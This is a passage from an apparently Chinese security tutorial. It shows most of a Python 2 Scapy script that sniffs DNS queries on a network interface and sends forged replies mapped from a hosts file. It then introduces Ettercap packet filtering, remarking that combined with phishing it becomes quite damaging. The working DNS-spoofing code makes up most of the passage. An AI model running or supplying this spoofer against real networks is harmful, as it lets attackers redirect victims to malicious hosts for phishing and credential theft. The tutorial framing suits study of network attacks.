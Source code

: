 ```bash
                    )
            print "Send %s has %s to %s" % (queried_host,resolved_ip,ip.src)
            scapy.send(dns_reply, iface=dev)
 
def usage():
    print sys.argv[0] + ' -f <hosts-file>  -i <dev>'
    sys.exit(1)
 
def parse_host_file(file):
    for line in open(file):
        line  = line.rstrip('\n')
 
        if line:
            (ip, host) = line.split()
            dns_map[host] = ip
try:
    cmd_opts = 'f:i:'
    opts, args = getopt.getopt(sys.argv[1:], cmd_opts)
except getopt.GetoptError:
    usage()
 
for opt in opts:
    if opt[0] == '-i':
        dev = opt[1]
    elif opt[0] == '-f':
        file = opt[1]
    else:
        usage()
 
if file:
    parse_host_file(file)
else:
    usage()
 
print "Spoofing DNS requests on %s" % dev
scapy.sniff(iface=dev, filter=filter, prn=handle_packet)
```
<span style="font-size: 15px;">　　上面的两个脚本的核心之处是使用了scapy（http://www.secdev.org/projects/scapy/doc/usage.html#starting-scapy）这个网络库，其功能十分的强大，使用简介，基本只需几行代码就可以进行特定的攻击，有时间要好好研究研究。</span>

　　**Ettercap的包过滤：**

　　Ettercap的包过滤是一个比较好玩的功能了。再结合一点钓鱼技术的话，危害就比较大了。下面简单介绍几种过滤实例：

　　Ettercap目录下也自带了一些过滤规则：

　　![img](../../../../../ImageAssets/270035332621747-1573358989635.png)
